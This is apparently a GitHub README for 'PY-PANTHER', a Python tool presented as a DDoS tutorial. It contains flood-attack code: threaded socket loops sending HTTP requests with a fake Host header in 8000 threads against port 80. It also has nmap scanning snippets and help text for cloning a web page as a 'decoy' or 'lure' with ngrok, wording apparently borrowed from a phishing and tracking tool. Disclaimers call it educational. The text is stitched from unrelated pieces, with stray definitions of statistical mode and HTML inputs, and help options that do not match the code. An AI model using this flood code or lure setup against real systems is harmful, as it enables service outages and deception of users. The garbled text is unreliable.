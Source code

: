 PY-PANTHER
==========

 Performing a DDOS attack onto any server that is not yours or you don’t have permission to attack is highly illegal..
 
 ---
 INTRODUCTION
----------------
 we are going to write a penetration-testing script, namely a DDOS script, in Python. This program will allow us to flood a server with so many reqeusts that, after a while, it won’t be able to respond anymore and it will go down.

But let me give you a big warning here! Performing a DDOS attack onto any server that is not yours or you don’t have permission to attack is highly illegal. I do not recommend the attacks on any servers other than your own and I am not responsible for what you are going to do with this script. This post is purely educational and shall help you to understand networking and programming with Python. So don’t do stupid things!

WHAT IS DDOS?

DDOS stands for Distributed Denial of Service and it is an attack where we block the ressources of a server by flooding it with requests. Usually this kind of attack is never performed alone but with the help of so-called botnets.
![PY-PANTHER](https://www.neuralnine.com/wp-content/uploads/2019/09/botnet2-1024x702.png)

In a botnet, one hacker infects many computers and servers of ordinary people, in order to use them as zombies. He uses them for a collective attack onto a server. Instead of one DDOS script, he can now run thousands of them. Sooner or later the server will be overwhelmed with the amount of requests so that it is not even able to respond to an ordinary user. For smaller and weaker servers, sometimes one attacker is enough to get it down. However, usually such an attack can be counteracted by blocking the IP-addresses of the attackers.

WHAT IS NMAP?
Nmap, short for Network Mapper, is a free, open-source tool for vulnerability scanning and network discovery. Network administrators use Nmap to identify what devices are running on their systems, discovering hosts that are available and the services they offer, finding open ports and detecting security risks.


Implementing The DDOS Script

The implentation of a DDOS script in Python is quite simple. We only need to send requests to a host on a specific port over and over again. This can be done with sockets. To speed the process up and make it more effective, we will use multi-threading as well. So, the following libraries will be needed for this tutorial:

```
import socket
import threading
```
then write the executable code

```
def restart_program() :
    python = sys.executable
    os.execl(python, python, *sys.argv)
    os.system('clear')
```
We all know, what import nmap is for, to import the nmap module to our python script.
Then we initialise the Nmap PortScanner to scan the ports on our local network.
```
scanner = nmap.PortScanner()
```
The type of scan we use in this attacks are:
```
mode = input("""\nEnter the type of scan!!!
                  [1] Domain LookUp
                  [2] Whole Network Scan
                  [3] Simple Network scan
                  [4] Aggressive Scan 
                  [5] CVE Scan
                  [00] Back\nEnter your option : """)
        print("\nYou have selected option: ", mode)
```        

The mode of a set of data values is the value that appears most often. It is the value at which the data is most likely to be sampled.
```
if mode == '1' :
```
The <input type="url"> defines a field for entering a URL.The input value is automatically validated before the form can be submitted.
```
 url = input("Enter the Domain Name : ")
 ```
 
 the if statements used for the conditional execution
 ```
  a = platform.system()
            if a == 'Windows' :
                print(os.system('ipconfig'))
            elif a == 'Linux' :
                print(os.system('ifconfig'))
            elif a == 'Darwin' :
                print(os.system('ifconfig'))
```
Enumerating(counting and listing one by one) all the open ports on You can also provide the IP address of any remote server as well, to scan
```
lport = scanner[ip][proto].keys()
```
As I already mentioned, DDOS is illegal. So be careful witht the target that you choose here. You can also choose your home server, your printer or maybe even your own website. If you don’t know your IP-address, you can use your command line and ping the domain to get it. As a fake IP-address I chose a random but still valid address. Last but not least, I decided to attack the port 80, which is HTTP. If you want to shut down a specific service, you need to know which port it is operating at.
```
  def attack() :
        while True :
          s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          s.connect((target, port))
          s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
          s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
```
We created a variable attack_num that tracks how many requests have been sent already. With every iteration, we increase this number and print it.
```
  global attack_num
  attack_num += 1
  print(attack_num)
  
  s.close()
```
In this case, we are starting 8000 threads that will execute our function.
Of course, you can play around with the number.When we now execute our script, we will DDOS the target but we won’t see anything.
If you want to see some information, you may print the amounts of requests already sent.
just notice that this will slow down your attack.
```
    for i in range(8000) :
        thread = threading.Thread(target=attack)
        thread.start()
```
**HELP  AND OPTIONS**
```
user:~$ python3 pypanther.py --help
usage: python pypanther.py -u <> -p <> [-h] [-v] [-u URL] [-p PORT]
                                              [-ak ACCESSKEY] [-l LOCAL]
                                              [--update] [-n] [-ic INJC]

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -u URL, --url URL     Put the web page url to clone
  -p PORT, --port PORT  Insert your port
  -ak ACCESSKEY, --accesskey ACCESSKEY
                        Insert your custom key access
  -l LOCAL, --local LOCAL
                        Insert your home file
  -n, --ngrok           Insert your ngrok Authtoken
  -ic INJC, --injectcode INJC
                        Insert your custom REST API path
  -ud UPDATE, --update UPDATE
                        Update trape to the latest version
```

**--url**  In this option you add the URL you want to clone, which works as a decoy.

**--port**  Here you insert the port, where you are going to run the  **PY-PANTHER server**.

**--accesskey**  You enter a custom key for the  **trape panel**, if you do not insert it will generate an  **automatic key**.

**--injectcode**  PY-PANTHER contains a  **REST API**  to play anywhere, using this option you can customize the name of the file to include, if it does not, generates a random name allusive to a token.

**--local**  Using this option you can call a local **HTML file**, this is the replacement of the  **--url**  option made to run a local lure in trape.

**--ngrok**  In this option you can enter a token, to run at the time of a process. This would replace the token saved in configurations.

**--version**  You can see the version number of PY-PANTHER.

**--update**  Option used to upgrade to the latest version of **PY-PANTHER**.

**--help**  It is used to see all the above options, from the executable.


How to use it
-------
 First unload the tool.
```
git clone https://github.com/redteamacademy/ADCDGRP/pypanther.git
cd pypanther
python pypanther.py -h
```
If it does not work, try to install all the libraries that are located in the file **requirements.txt**
```
pip install -r requirements.txt
```

Disclaimer
-------
This tool has been published educational purposes. It is intended to teach people how bad guys could track them, monitor them or obtain information from their credentials, we are not responsible for the use or the scope that someone may have through this project.

We are totally convinced that if we teach how vulnerable things really are, we can make the Internet a safer place.

Developer
-------
ADCD STUDENTS COCHIN & CALICUT

Happy Pentesting!
-------
I invite you, if you use this tool helps to share, collaborate. Let's make the Internet a safer place, let's report.

## License

The content of this project itself is licensed under the [Creative Commons Attribution 3.0 license](http://creativecommons.org/licenses/by/3.0/us/deed.en_US), and the underlying source code used to format and display that content is licensed under the [MIT license](http://opensource.org/licenses/mit-license.php).

Copyright, REDTEAM & STUDENTS
